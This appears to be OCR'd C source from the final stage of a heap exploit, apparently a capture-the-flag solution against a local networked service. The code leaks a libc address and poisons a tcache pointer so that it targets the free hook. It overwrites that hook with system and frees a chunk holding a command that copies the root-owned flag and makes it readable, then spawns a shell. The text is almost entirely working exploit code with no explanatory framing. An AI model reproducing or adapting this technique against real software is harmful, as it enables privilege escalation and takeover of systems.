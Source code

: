 ```c
    // read in the libc leak
    do {
        read(conns[14], chunk, 1);
    } while(*chunk != '\n');
    read(conns[14], chunk, 0x20);
    leak = (size_t*)chunk;
    if (leak[1] == 0x811) {
        puts("libc leak not found :(");
        exit(0);
    }
    printf("leaked: %lx %lx %lx %lx\n", leak[0], leak[1], leak[2], leak[3]);
    size_t libcbase = leak[2] -= OFFSET_LIBC;
    printf("libc located at: 0x%lx\n", libcbase);

    // prepare to trigger the bug one last time...
    int x, y, z;
    x = conn();
    yield();
    y = conn();
    yield();
    z = conn();
    yield();
    write(x, "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA", 0x20);
    write(y, "BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB", 0x20);
    write(z, "CCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCC", 0x20);
    yield();
    close(x);
    yield();

    // bug again: overwrite tcache pointer to point at free hook
    addr = libcbase + OFFSET_FREE_HOOK;
    write(z, &addr, 7);
    close(y);
    yield();

    // get chunk overlapping the free hook, overwrite it with system
    write(conns[10], "XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX", 0x20);
    yield();
    memset(chunk, 0, 0x20);
    *(size_t*)chunk = libcbase + OFFSET_SYSTEM;
    write(conns[11], chunk, 0x20);
    yield();

    // create chunk with command to be executed
    x = conn();
    write(x, "/bin/cp /root/flag /tmp; /bin/chmod a+r /tmp/flag\0", 0x50);
    // free the chunk, executes the command as root
    close(x);

    // we can now cat /tmp/flag
    fflush(stdout);
    system("/bin/sh");
    return 0;
}
```
